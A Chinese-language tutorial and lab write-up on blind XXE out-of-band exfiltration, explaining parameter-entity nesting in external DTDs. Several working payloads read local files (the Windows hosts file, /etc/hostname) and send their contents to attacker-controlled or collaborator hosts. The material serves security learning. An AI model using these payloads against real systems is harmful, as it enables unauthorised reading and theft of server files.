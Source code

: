 # XXE 盲注外带数据

XXE 外带数据需要引入外部 DTD（内部 DTD 无效，因为内部 DTD 不支持嵌套语法，而 XXE 带外数据依赖嵌套语法）。

### XXE 数据带外案例

外部 DTD payload：

```
# 使用参数实体进行嵌套，使得目标系统的数据被带外到攻击者服务器。
<!ENTITY % file SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://www.oswe.com/attackspace/log.php/?x=%file;'>">
%eval;
%exfiltrate;
# 如果引入以上 DTD ，服务器将动态发送本地 hosts 文件到攻击者网站。
```

服务器引入此 DTD：

```
# 一般情况下仍然使用参数实体引入 dtd，有如下两方面原因：
# 一方面因为参数实体可以在内部 dtd 里过早展开的优势。
# 另一方面因为某些解析器会禁止引入外部实体，但允许参数实体引入外部 dtd。

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://www.oswe.com/attackspace/test.dtd">
  %xxe;
]>
<user>
  <name>Alice</name>
  <email>nihao</email>
</user>
```

##### 解释：

这是一个嵌套解析的过程，当引入外部恶意 DTD 后，DTD 自动引用 %eval; 将 %eval; 替换为如下字符串：

```
<!ENTITY &#x25; exfiltrate SYSTEM 'http://www.oswe.com/attackspace/log.php/?x=%file;'>
```

然而替换之后，xml 解析器会再一次解析替换完成后的字符。

```
1.%eval; 被替换成如下字符：
2.<!ENTITY &#x25; exfiltrate SYSTEM 'http://www.oswe.com/attackspace/log.php/?x=%file;'>
3.替换后，xml 再进行了一次解析，将如上字符串认定为 exfiltrate 参数实体的声明。
4.然后再展开它：%exfiltrate;，展开它是将发送 http 请求。
5.请求中又遇到了一个参数实体 %file;，将其替换为敏感文件内容。
```

##### 整体过程

1. 准备恶意 DTD

    将上面的 DTD 内容保存为外部 DTD，并上传至攻击者可控的 Web 服务器（如 `http://web‑attacker.com/malicious.dtd`）。

2. 构造 XXE payload

   在目标应用可提交 XML 的地方，嵌入对外部 DTD 的引用。例如：

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
     <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd">
     %xxe;
   ]>
   <foo>test</foo>
   ```


### 实验

带外检测

```
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://3y2gd7xi5c2j9zz21kfz5i41qswjkk89.oastify.com"> %xxe;]>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "https://3y2gd7xi5c2j9zz21kfz5i41qswjkk89.oastify.com"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

![image-20250601170003783](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250601170003783.png)

存在带外：

![image-20250601170022543](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250601170022543.png)

内部 dtd 的话失效：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://3y2gd7xi5c2j9zz21kfz5i41qswjkk89.oastify.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

![image-20250601170340654](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250601170340654.png)

尝试参数实体引入外部 dtd：

```
# 存储在攻击者服务器上：
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://3y2gd7xi5c2j9zz21kfz5i41qswjkk89.oastify.com/?x=%file;'>">
%eval;
%exfil;

# 参数实体引入：
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aa400e2040678c3826c82f30146008e.exploit-server.net/exploit"> %xxe;]>

# 利用成功：
```

![image-20250601171220328](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250601171220328.png)




